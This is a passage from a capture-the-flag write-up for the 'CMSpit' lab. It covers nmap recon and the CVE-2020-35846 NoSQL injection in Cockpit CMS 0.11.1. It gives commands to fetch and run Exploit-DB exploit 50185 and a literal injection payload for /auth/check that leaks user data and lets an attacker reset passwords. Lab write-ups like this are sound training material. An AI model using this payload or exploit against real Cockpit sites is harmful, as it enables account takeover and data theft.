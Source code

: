 ### CMSpit
This is a machine that allows you to practise web app hacking and privilege escalation using recent vulnerabilities.

## 🖥️ Initial Recon:
Beginning with a basic nmap scan:
```bash
nmap -A 10.10.116.219
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-15 11:10 +06
Nmap scan report for 10.10.116.219
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Authenticate Please!
|_Requested resource was /auth/login?to=/
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Ports 22 and 80 are open; focusing on port 80.

## 🌐 Web Enum:
Visiting port 80 provides us with a login page.

***● What is the name of the Content Management System (CMS) installed on the server?***

Ans: The CMS name is displayed on the login page (cockpit).

***● What is the version of the Content Management System (CMS) installed on the server?***

Ans: TThe version number can be found in the login page's source code. Right-click the page, open the source code, and examine it carefully (0.11.1).

***● What is the path that allow user enumeration?***

**Path: /auth/check**\
This endpoint in Cockpit CMS 0.11.1 is vulnerable to NoSQL Injection (CVE-2020-35846), allowing attackers to enumerate valid usernames.

**Exploitation:**\
There’s both an automated and a manual exploit; let’s try the automated one first.
```bash
searchsploit cockpit 0.11.1
```
you'll find the exploit, now it's time to download and execute.
```bash
searchsploit -m 50185
```
```bash
python3 50185.py -u http://IP/
```
This vulnerability allows extracting password reset tokens, retrieving full user details (including email, hashed password, and user ID), and resetting any user's password without authentication.
To manually test for vulnerabilities, use Burp Suite to intercept login attempts with arbitrary credentials, then craft an exploit payload based on resources like Exploit-DB.
```bash
{"auth":{"user":{"$func":"var_dump"},"password":"admin"},"csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"}
```
This is the one I used
